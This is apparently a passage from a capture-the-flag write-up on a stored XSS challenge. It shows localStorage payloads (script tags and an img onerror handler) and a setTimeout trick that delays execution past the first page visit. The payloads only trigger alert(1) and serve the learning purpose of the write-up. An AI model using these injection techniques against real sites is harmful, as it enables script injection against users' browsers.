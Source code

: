 ```javascript
localStorage.setItem("userPreferences", "<script>alert(1)</script>");
localStorage.setItem("settings", "<script>alert(1)</script>");
localStorage.setItem("config", "<script>alert(1)</script>");
```

**Problem:** None of these keys were actually used by the application. The payload was stored but never read, so it never executed.

**Result:** No alert at all—the application ignored these keys.

## Stuck Point #1: Understanding Execution Timing

The core challenge was understanding **when** the payload would execute. I spent considerable time debugging this flow:

1. My XSS payload executes (via reflected XSS from Task 2)
2. My payload sets `localStorage`
3. The page's legitimate JavaScript reads from `localStorage`
4. The page injects the theme into the DOM
5. My XSS executes **immediately** on the first visit

This violated the first requirement: "No alert on first visit."

### Debugging Process

I added console logging to understand the execution order:

```javascript
<script>
console.log('1. XSS payload executing');
localStorage.setItem('theme', '<img src=x onerror="console.log(\'3. XSS triggered\'); alert(1)">');
console.log('2. localStorage set');
</script>
```

The console output showed:

```
1. XSS payload executing
2. localStorage set
3. XSS triggered  ← This shouldn't happen on first visit!
```

The application's JavaScript was reading from `localStorage` and injecting it into the DOM during the same page load, causing the immediate execution.

## Breakthrough #1: setTimeout with Zero Delay

The solution came from understanding JavaScript's **event loop**. Even with a zero-millisecond delay, `setTimeout` pushes the callback to the back of the event queue:

```javascript
<script>
setTimeout(function() {
    localStorage.setItem('theme', '<img src=x onerror=alert(1)>');
}, 0);
</script>
```
